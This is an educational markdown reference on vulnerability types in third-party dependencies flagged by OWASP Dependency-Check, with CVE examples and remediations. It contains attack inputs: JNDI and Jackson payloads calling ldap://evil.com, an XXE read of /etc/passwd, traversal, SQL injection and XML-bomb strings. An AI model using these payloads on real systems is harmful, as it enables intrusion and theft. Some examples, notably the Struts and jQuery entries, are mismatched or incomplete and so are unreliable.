

# Common Vulnerability Patterns in Dependencies

This reference document provides educational examples of vulnerability types detected by OWASP Dependency-Check. These patterns help understand why dependencies get flagged and the associated risks.

> **Note**: Dependency-Check identifies **known CVEs** in third-party libraries, not vulnerabilities in your own code. These examples illustrate the types of flaws in dependencies that attackers exploit.

## Critical Vulnerability Categories

### 1. Remote Code Execution (RCE)

**MITRE ATT&CK**: T1059 (Command and Scripting Interpreter)  
**CVSS Range**: 9.0 - 10.0 (CRITICAL)

Allows attackers to execute arbitrary code on the server or client.

**Example: Log4Shell (CVE-2021-44228)**
```java
// Vulnerable Log4j 2.x usage - JNDI injection via log message
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

Logger logger = LogManager.getLogger();

// Attacker sends: ${jndi:ldap://evil.com/exploit}
String userInput = request.getParameter("username");
logger.info("User login: " + userInput);  // RCE triggered!
```

**Remediation**: Upgrade Log4j to 2.17.1+ or set `log4j2.formatMsgNoLookups=true`

---

### 2. Deserialization Vulnerabilities

**MITRE ATT&CK**: T1059, T1190  
**CVSS Range**: 7.5 - 10.0

Exploits unsafe deserialization of untrusted data to execute arbitrary code.

**Example: Jackson Databind (Multiple CVEs)**
```java
// Vulnerable Jackson deserialization with polymorphic types
import com.fasterxml.jackson.databind.ObjectMapper;

ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();  // DANGEROUS - enables polymorphic deserialization

// Attacker payload with malicious class
String maliciousJson = "[\"com.sun.rowset.JdbcRowSetImpl\", {\"dataSourceName\":\"ldap://evil.com/exploit\"}]";
Object obj = mapper.readValue(maliciousJson, Object.class);  // RCE!
```

**Remediation**: Upgrade Jackson, disable default typing, use `@JsonTypeInfo` with safe base types

---

### 3. SQL Injection in ORM Libraries

**MITRE ATT&CK**: T1190  
**CVSS Range**: 7.0 - 9.8

Flaws in database abstraction layers that don't properly sanitize queries.

**Example: Hibernate ORM (CVE-2019-14900)**
```java
// Vulnerable Hibernate criteria query
String userInput = request.getParameter("status");

// Attacker can inject: "active' OR '1'='1"
Query query = session.createQuery(
    "FROM Order WHERE status = '" + userInput + "'"  // SQL Injection!
);
```

**Remediation**: Always use parameterized queries, upgrade affected library versions

---

### 4. XML External Entity (XXE) Injection

**MITRE ATT&CK**: T1005 (Data from Local System)  
**CVSS Range**: 7.5 - 9.8

Exploits XML parsers that process external entity references.

**Example: Apache Xerces (Various CVEs)**
```java
// Vulnerable XML parsing
import javax.xml.parsers.DocumentBuilderFactory;

DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
// Default settings may allow XXE!

// Attacker XML payload:
// <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
// <data>&xxe;</data>

Document doc = factory.newDocumentBuilder().parse(attackerXml);
// Server files exposed!
```

**Remediation**: Disable external entities:
```java
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
```

---

### 5. Server-Side Request Forgery (SSRF)

**MITRE ATT&CK**: T1071 (Application Layer Protocol)  
**CVSS Range**: 5.0 - 9.0

Allows attackers to make the server request internal/arbitrary URLs.

**Example: Spring Cloud Gateway (CVE-2022-22947)**
```yaml
# Malicious route configuration injected via actuator
spring:
  cloud:
    gateway:
      routes:
      - id: exploit
        uri: http://internal-service:8080/admin  # SSRF to internal service
        predicates:
        - Path=/public/**
```

**Remediation**: Secure actuator endpoints, upgrade Spring Cloud Gateway, restrict route sources

---

### 6. Path Traversal / Arbitrary File Access

**MITRE ATT&CK**: T1005  
**CVSS Range**: 5.3 - 9.8

Allows reading or writing files outside intended directories.

**Example: Apache Struts (CVE-2018-11776)**
```java
// Vulnerable redirect handling
// URL: http://example.com/app/../../../etc/passwd
String redirect = request.getParameter("redirect");
response.sendRedirect(redirect);  // Path traversal!
```

**Example: Node.js serve-static (CVE-2021-23424)**
```javascript
// Vulnerable file serving
const express = require('express');
const serveStatic = require('serve-static');

app.use(serveStatic('/var/www/public'));
// Attacker: GET /../../../etc/passwd -> File exposed!
```

**Remediation**: Upgrade libraries, validate and normalize file paths

---

### 7. Prototype Pollution (JavaScript)

**MITRE ATT&CK**: T1059  
**CVSS Range**: 6.0 - 9.8

Manipulates JavaScript Object prototype to inject properties.

**Example: Lodash (CVE-2019-10744)**
```javascript
const _ = require('lodash');

// Attacker-controlled input
const payload = '{"__proto__": {"polluted": "yes"}}';
const obj = JSON.parse(payload);

_.merge({}, obj);

// Now ALL objects have 'polluted' property!
console.log({}.polluted);  // "yes"
```

**Remediation**: Upgrade lodash to 4.17.12+, validate JSON input keys

---

### 8. Cross-Site Scripting (XSS) in Frameworks

**MITRE ATT&CK**: T1203 (Exploitation for Client Execution)  
**CVSS Range**: 5.0 - 7.5

Client-side code execution via improperly escaped output.

**Example: jQuery (CVE-2020-11022)**
```javascript
// Vulnerable jQuery HTML parsing
const userInput = location.hash;  // Attacker: #

// jQuery before 3.5.0 executes inline handlers!
$(document).find(userInput);  // XSS!
```

**Remediation**: Upgrade jQuery to 3.5.0+, sanitize user input before DOM insertion

---

### 9. Denial of Service (DoS)

**MITRE ATT&CK**: T1499 (Endpoint Denial of Service)  
**CVSS Range**: 5.0 - 7.5

Crafted input causes excessive resource consumption.

**Example: ReDoS in Regular Expressions**
```javascript
// Vulnerable regex in older validator libraries
const emailRegex = /^([a-zA-Z0-9_\.\-]+)@([\da-z\.\-]+)\.([a-z\.]{2,5})$/;

// Attacker input causes catastrophic backtracking
const malicious = "a".repeat(50) + "@";
emailRegex.test(malicious);  // CPU exhaustion!
```

**Example: Billion Laughs Attack (XML)**
```xml
<!-- CVE in XML parsers without entity limits -->
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!-- Continues exponentially... -->
]>
<data>&lol9;</data>
<!-- Expands to gigabytes of data! -->
```

**Remediation**: Upgrade libraries, limit input sizes, set entity expansion limits

---

### 10. Authentication/Authorization Bypass

**MITRE ATT&CK**: T1078 (Valid Accounts)  
**CVSS Range**: 7.5 - 10.0

Flaws that allow bypassing security controls.

**Example: Spring Security (CVE-2022-22978)**
```java
// Vulnerable request matching
http.authorizeRequests()
    .antMatchers("/admin/**").hasRole("ADMIN")
    .anyRequest().permitAll();

// Attacker bypasses with: /admin%0a/sensitive
// URL encoding trick bypasses pattern matching!
```

**Remediation**: Upgrade Spring Security, use strict URL matching

---

## Understanding Dependency-Check Output

### Sample Vulnerability Entry

```json
{
  "name": "CVE-2021-44228",
  "severity": "CRITICAL",
  "cvssv3": {
    "baseScore": 10.0,
    "attackVector": "NETWORK",
    "attackComplexity": "LOW",
    "privilegesRequired": "NONE",
    "userInteraction": "NONE",
    "scope": "CHANGED",
    "confidentialityImpact": "HIGH",
    "integrityImpact": "HIGH",
    "availabilityImpact": "HIGH"
  },
  "description": "Apache Log4j2 2.0-beta9 through 2.15.0 (excluding security releases 2.12.2, 2.12.3, and 2.3.1) JNDI features...",
  "references": [
    {"url": "https://nvd.nist.gov/vuln/detail/CVE-2021-44228"},
    {"url": "https://logging.apache.org/log4j/2.x/security.html"}
  ]
}
```

### Prioritization Guide

| Factor | Higher Priority | Lower Priority |
|--------|-----------------|----------------|
| CVSS Score | 9.0+ Critical | < 4.0 Low |
| Attack Vector | Network | Local |
| Attack Complexity | Low | High |
| Privileges Required | None | High |
| User Interaction | None | Required |
| Scope | Changed | Unchanged |
| Exploitability | Known exploits (check CISA KEV) | Theoretical |
| Context | Internet-facing, production | Internal, development |

### False Positive Indicators

1. **Database drivers flagged for server CVEs**: MySQL JDBC driver flagged for MySQL Server vulnerabilities
2. **Test-only dependencies**: JUnit libraries in production scans
3. **Different product same name**: "log4j" (Log4j 1.x safe version) vs Log4j 2.x
4. **Shaded/relocated classes**: Bundled dependencies that were patched upstream

## Supply Chain Attack Indicators

While Dependency-Check focuses on CVEs, watch for these supply chain attack patterns:

| Pattern | Risk | Detection Tool |
|---------|------|----------------|
| New maintainer on old package | Hijacking | GuardDog, manual review |
| Version 0.0.x with network calls | Experimental malware | GuardDog |
| Typosquatted package names | Malware distribution | GuardDog |
| Install scripts with obfuscation | Backdoor installation | GuardDog, manual review |
| Dependencies CVE shows CISA KEV | Actively exploited | Dependency-Check (CISA integration) |

## Remediation Workflow



## Resources

- [NVD - National Vulnerability Database](https://nvd.nist.gov/)
- [CISA Known Exploited Vulnerabilities](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [CWE - Common Weakness Enumeration](https://cwe.mitre.org/)
